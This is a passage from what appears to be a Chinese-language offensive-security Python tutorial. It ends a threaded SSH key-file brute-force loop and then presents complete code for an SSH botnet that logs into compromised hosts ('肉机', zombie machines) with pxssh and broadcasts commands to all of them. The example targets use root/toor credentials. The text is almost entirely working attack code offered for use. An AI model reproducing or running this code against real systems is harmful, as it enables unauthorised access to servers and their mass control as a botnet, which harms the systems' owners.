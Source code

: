 ```python
    for file_name in os.listdir(pass_dir):
        if stop:
            print("[*] Exiting: Key Found.")
            exit(0)
        if fails > 5:
            print("[!] Exiting: Too Many Connections Closed By Remote Host.")
            print("[!] Adjust number of simultaneous threads.")
            exit(0)
        connection_lock.acquire()

        full_path = os.path.join(pass_dir, file_name)
        print("[-] Testing keyfile {}".format(full_path))
        t = threading.Thread(target=connect, args=(user, target_host, full_path, True))
        child = t.start()

if __name__ == "__main__":
    main()
```

### 构建 SSH 僵尸网络

每个单独的僵尸或者 client 都需要有能连上某台肉机，并把命令发送给肉机的能力

```python
import optparse
import pexpect.pxssh as pxssh

bot_net = list()

class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()

    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print("[-] Error Connecting")

    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before

def bot_net_command(command):
    for client in bot_net:
        output = client.send_command(command)
        print("[*] Output from {}".format(client.host))
        print("[+] {}".format(output))

def add_client(host, user, password):
    client = Client(host, user, password)
    bot_net.append(client)

if __name__ == "__main__":
    add_client("10.10.10.110", "root", "toor")
    add_client("10.10.10.120", "root", "toor")
    add_client("10.10.10.130", "root", "toor")
```